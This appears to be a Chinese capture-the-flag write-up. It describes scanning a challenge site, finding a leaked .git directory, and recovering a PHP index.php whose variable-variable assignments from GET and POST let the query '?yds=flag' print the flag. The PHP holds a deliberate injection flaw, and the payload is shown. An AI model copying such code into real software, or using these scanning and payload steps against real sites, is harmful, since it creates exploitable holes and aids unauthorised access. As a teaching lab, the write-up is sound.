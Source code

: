 ![](<./img/Pasted image 20221122163014.png>)

---
首页长这样

![](<./img/Pasted image 20221122163031.png>)

炫酷.jpg

既然想不到啥方法，那就扫目录看看八

![](<./img/Pasted image 20221122163231.png>)

有`git`目录，有一个`flag.php`

康康`git`泄漏

---
`flag.php`（`lolcat`真好玩QwQ）

![](<./img/Pasted image 20221122164101.png>)

---
`index.php`
```php
<?php
include 'flag.php';

$yds = "dog";
$is = "cat";
$handsome = 'yds';

foreach($_POST as $x => $y){
    $$x = $y;
}

foreach($_GET as $x => $y){
    $$x = $$y;
}

foreach($_GET as $x => $y){
    if($_GET['flag'] === $x && $x !== 'flag'){
        exit($handsome);
    }
}

if(!isset($_GET['flag']) && !isset($_POST['flag'])){
    exit($yds);
}

if($_POST['flag'] === 'flag'  || $_GET['flag'] === 'flag'){
    exit($is);
}

echo "the flag is: ".$flag;
```

emmm，虽然但是，这个不是让`$_GET['yds']='flag'`就绕过了嘛，感觉有点像脑筋急转弯.jpg
```php
?yds=flag
```
![](<./img/Pasted image 20221123004833.png>)

#Web #PHP #代码审计 #可变变量 #目录扫描 #git泄露 
